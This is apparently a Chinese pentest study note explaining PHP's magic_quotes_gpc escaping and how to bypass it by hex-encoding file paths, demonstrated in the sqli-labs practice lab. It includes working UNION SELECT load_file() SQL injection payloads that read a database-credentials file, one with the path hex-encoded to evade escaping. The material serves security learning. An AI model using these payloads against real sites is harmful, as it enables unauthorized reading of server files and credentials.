 ### 常见读写文件问题：PHP魔术引号开关

#### magic_quotes_gpc开关

`magic_quotes_gpc`函数在php中的作用是判断解析用户提示的数据，如包括有：`post`、`get`、`cookie`过来的数据增加转义字符“\”，对POST、POST、__GET以及进行数据库操作的sql进行转义处理，以确保这些数据不会引起程序，特别是数据库语句因为特殊字符引起的污染而出现致命的错误。防止sql注入

当magic_quotes_gpc = On时，输入数据中含**单引号（’）、双引号（”）、反斜线（\）与 NULL（NULL 字符）**等字符，都会被加上反斜线。这些转义是必须的。

php中的`magic_quotes_gpc`是配置在php.ini中。

#### 魔术引号绕过——编码或宽字节绕过

##### 编码绕过

将要写入的目录/路径进行十六进制编码后在注入点处写入，SQL可以执行十六进制编码的SQL语句，而且由于进行了编码，`magic_quotes_gpc`开关不会对十六进制编码中的特定字符进行过滤。

###### 编码绕过演示

开启`magic_quotes_gpc`开关

经过尝试在phpstudy中较高版本开启`magic_quotes_gpc`开关后访问网站会报Internal Server Error错误

需要切换PHP版本到**PHP-5.2.17**才可以

经过查询`magic_quotes_gpc`开关在高版本的PHP中已经移除。。。

![](https://img.yatjay.top/md/202203251639295.png)

![](https://img.yatjay.top/md/202203251639580.png)

**注意：sqlilabs-Lesson-1的SQL语句闭合需要单引号，若开启魔术引号则无法使用编码绕过故以下演示使用sqlilabs-Lesson-2**

常规文件读写操作

```sql
?id=-1 union select 1, load_file('D:\\JayProgram\\PHPstudy\\PHPTutorial\\WWW\\PenTest\\sqlilabs\\sql-connections\\db-creds.inc') ,3
```

![](https://img.yatjay.top/md/202203251639327.png)

![](https://img.yatjay.top/md/202203251641113.png)

可见输入数据中含**单引号（’）、双引号（”）、反斜线（\）与 NULL（NULL 字符）**等字符，都被加上了反斜线，并不会执行SQL注入语句。

对SQL语句进行十六进制编码，在执行时函数参数不要加单引号，直接把不带引号的路径的十六进制结果写在参数位置上进行提交：

![](https://img.yatjay.top/md/202203251639341.png)

```sql
?id=-1 union select 1, load_file(0x443A5C5C4A617950726F6772616D5C5C50485073747564795C5C5048505475746F7269616C5C5C5757575C5C50656E546573745C5C73716C696C6162735C5C73716C2D636F6E6E656374696F6E735C5C64622D63726564732E696E63),3
```

![](https://img.yatjay.top/md/202203251639940.png)
